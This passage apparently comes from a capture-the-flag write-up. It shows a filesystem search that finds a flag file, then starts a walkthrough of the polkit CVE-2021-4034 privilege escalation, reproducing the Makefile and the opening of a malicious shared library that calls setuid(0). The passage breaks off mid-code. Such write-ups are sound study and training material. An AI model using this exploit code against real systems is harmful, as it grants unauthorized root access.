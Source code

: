 Let's search the entire filesystem for any files containing the word "fire"    
	$ find / -type f -iname *fire* 2> /dev/null  
	/var/lib/app-info/icons/ubuntu-xenial-main/64x64/firefox_firefox.png  
	/var/lib/app-info/icons/ubuntu-xenial-updates-main/64x64/firefox_firefox.png  
	/var/lib/app-info/icons/ubuntu-xenial-security-universe/64x64/firewall-config_firewall-config.png  
	/var/lib/app-info/icons/ubuntu-xenial-universe/64x64/firewall-config_firewall-config.png  
	/var/lib/app-info/icons/ubuntu-xenial-universe/64x64/fretsonfire-game_fretsonfire.png  
	/var/lib/app-info/icons/ubuntu-xenial-security-main/64x64/firefox_firefox.png  
	/var/lib/app-info/icons/ubuntu-xenial-updates-universe/64x64/firewall-config_firewall-config.png  
	/var/lib/dpkg/info/firefox.postrm  
	/var/lib/dpkg/info/firefox.list  
	/var/lib/dpkg/info/firefox-locale-en.list  
	/var/lib/dpkg/info/unity-scope-firefoxbookmarks.md5sums  
	/var/lib/dpkg/info/firefox.preinst  
	/var/lib/dpkg/info/firefox.md5sums  
	/var/lib/dpkg/info/unity-scope-firefoxbookmarks.list  
	/var/lib/dpkg/info/firefox.prerm  
	/var/lib/dpkg/info/firefox.conffiles  
	/var/lib/dpkg/info/firefox.postinst  
	/var/lib/dpkg/info/firefox-locale-en.md5sums  
	/etc/apport/blacklist.d/firefox  
	/etc/apport/native-origins.d/firefox  
	/etc/modprobe.d/blacklist-firewire.conf  
	**/etc/why_am_i_here?/fire-type.txt**  
	-- Omitted --  


The flag is encoded...Again, head over to [Cyber Chef](https://cyberchef.org/) to decode


## CVE-2021-4034 (polkit)

The PolicyKit vulnerability found at [Exploit Database](https://www.exploit-db.com/exploits/50689) indicates we need to create three files and then run make to create our exploit  
Contents of Makefile:  

	all:
		gcc -shared -o evil.so -fPIC evil-so.c
		gcc exploit.c -o exploit

	clean:
		rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so

Contents of evil-so.c:  

	#include <stdio.h>
	#include <stdlib.h>
	#include <unistd.h>

	void gconv() {}

	void gconv_init() {
	    setuid(0);
	    setgid(0);
	    setgroups(0);
